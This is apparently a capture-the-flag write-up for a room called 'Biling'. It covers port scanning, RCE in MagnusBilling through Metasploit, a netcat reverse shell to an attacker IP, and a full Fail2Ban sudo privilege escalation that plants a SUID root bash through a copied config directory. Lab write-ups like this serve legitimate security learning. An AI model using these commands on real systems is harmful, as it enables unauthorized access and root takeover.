









# Challenge: Biling

## Skill used:
- OSINT
- Nmap

## Prompt:
Gain a shell, find the way and escalate your privileges!
Note: Bruteforcing is out of scope for this room.

- Need to find the flag inside `user.txt`
- Need to find the flag inside `root.txt`

## Recon
IP Address given: 10.201.74.150

Entering the IP address on our browser reveals a login page for banking website. The organization name is MagnusBiling, we'll keep this in mind as there might be some info on the web about them. Since password bruteforcing is out of the question, we won't pay much attention to it for now

I did some searching and it seems that MagnusBiling is an actual legitimate business lol, and they are open source. 



### Nmap
Using Nmap to scan the ports of the server, looking for any open ports that we can exploit. I would have used rustscan but I'm doing this CTF on VM, on a MacOS and so the Kali Linux infrastructure is sightly modified which makes me unable to install `.deb` file onto my machine :/ 

`nmap 10.201.74.150 -sS -sV -p- -T5`
- -sS: TCP SYN scan, much more faster than TCP connect scan
- -p-: Scan all ports
- sV: Gather info what services are listening on the open ports
- -T5: Timing template, increasing num of threads mean faster scanning time (not recommend for stealth recon)



#### Output:
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

4 ports are available, 2 ports that caught my attention is the mysql(3306) (which is currently unathorized) and the asterisk port(5038). 

### Gobuster 

I decide to do some more snooping around for any other files with Gobuster, ran this command:
`gobuster dir -u "http://10.201.74.150/mbilling" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.html`

- -u: specify host to be enumerated 
- -w: path to wordlist 
- -x: extensions to be filtered and look for 



We found some JUICYY stuff from our enumeration attempt. There seems to be an `archive` page containing folder storing assets, which open for opportunities to carry out reverse shell attack 

Looking into one of the dir `lib`, we found a bunch of other folders, and just a quick search to to see if there are any vulnerabilities related to those services, we found a website that MagnusBiling ver 6.x and 7.x are vulnerable to a Remote Command Execution (RCE) attack within the `lib/icepay/icepay.php` via using Metasploit

P.S: I didn't scanned it well enough, but there was a README.md file, revealing the web application is in version 7.x.x



## Exploitation

### Metasploit 
We use the exploit available on Metasploit `msfconsole> use exploit/linux/http/magnusbilling`, all we need to do insert our IP address and the targeted machine IP address. 



Nice it seems we got access to the server, and by snooping around the dir and files, we found our `user.txt` within `home/magnus`. 



I created a shell to access the server via my linux terminal, and see if there's any ways to escalate our privileges. If we run `sudo -l' which list all of the commands you're allowed to run with sudo, which return an interesting result.




### Privilege Escalation 

Fail2Ban is a service that we can run apparently with sudo, and after some research [link:https://juggernaut-sec.com/fail2ban-lpe/] on ways I can escalate my privileges to root.

Gonna briefly explain this since I personally find it useful for writeups to explain their stuffs and findings rather than just blatantly pasting commands :P 

- Fail2Ban is a security program to prevent brute force attack (prob that's why they told us not to brute force)
- Scans log files and ban IP from too many failed login attempts 
- By default, the ban last for 10 mins when 5 auth failures has been detected within 10 mins 

Key config files:
- fail2ban.conf: Used to configure operational settings, how will daemon(background process that runs continuously) logs info, the socket, and pid file that will be use - but not very useful to attackers
- jail.conf - Main config file
- jail.local - An exntesion of `jail.conf` and used to dnable jails 
- iptables-multiport.conf: Action file that set up firewall and allow edits for banning malicious hosts & adding/removing hosts 
- iptables.conf: the 'new' multiport action file used in Fail2Ban ver >= 1.0.1

2 important binaries: `fail2ban-server` & `fail2ban-client` which start/stop Fail2Ban, view banned IPs, unban IPs, view configured jails..etc 

#### Upgrading Our shell
- Need to upgrade our dumb shell to full TTY(teletypewriter) - provide us with an interactive & full functional command-line interface

I created a shell inside `metepreter` & then started a reverse shell connection 
`busybox nc 10.14.90.235 9999 -e /bin/bash`
- busybox: contains many applets (commands), one of them is nc (netcat)
- nc: creates TCP/UDP connection, connect back to your attacking machine
- 10.14.90.235 9999: Host IP address
- 9999: Attacker's IP Address 
- -e /bin/bash: remote target runs Bash(shell) and pipes input/output over the TCP connection

Attacker side:
`nc -lvnp 9999`

Then we run the following:
```
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL + Z         #backgrounds netcat session
stty raw -echo
fg               #brings netcat session back to the foreground
export TERM=xterm
```

#### Shell as Root 
The idea from the article showed above is to customize a config in its config dir, and write code in that it execute with root permissions- but unfortunately, we only have read-only access to the dir & files 

We can see the `fail2ban-client` is a process started by `root`



To get around this, we can copy the config dir, and refer it when we execute `fail2ban`

In the `fail2ban-client` command, the `-c` option specifies the config dir for Fail2Ban, this will come in handy.

We first make a complete replica of the original dir(etc/fail2ban) in a dir(tmp/fail2ban) that we have read-write permission in, using `rsync`
`rsync -av /etc/fail2ban/ /tmp/fail2ban/`
- rsync: a fast & efficient copying tools, good for backups/mirroring
- a: archive mode:perserve literally EVERYTHING i.e ownerships, permissions, timestamps..etc
- v: verbose: shows what being copied

```
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```
- Creates a malicious /tmp/script that copies bash into /tmp.
- Makes it executable and sets SUID bit (so it runs as root when triggered).


```
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF
[Definition]
actionstart = /tmp/script
EOF
``` 
- New action definition: on jail start, run /tmp/script.


```
cat >> /tmp/fail2ban/jail.local <<EOF
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```
- Creates a new jail called [my-custom-jail].
- This jail will run our custom action at startup.

```
cat > /tmp/fail2ban/filter.d/my-custom-jail.conf <<EOF
[Definition]
EOF
```
- Minimal filter file (needed for Fail2ban to accept the jail).

`sudo fail2ban-client -c /tmp/fail2ban/ -v restart`
- Restarts Fail2ban using /tmp configs.
- On startup, Fail2ban runs our jail, triggering /tmp/script.
- /tmp/bash is now a root-owned SUID shell.

After that the only thing we need to do, is run `/tmp/bash -p` which will give us root shell and access to the root.txt!



## Final Words 
FUCK VM, more time was spent troubleshoot the VM than the actual CTF I felt like. I think I switched 3 desktops across period of 5 hours in total attempting this CTF. Overall, I learnt a lot despite feeling way out of depth near the end haha, definitely need more practice on Privilege Escalation, Metasploit, NetCat and other theoretical concepts/knowledges, since I'm mainly learning on the go
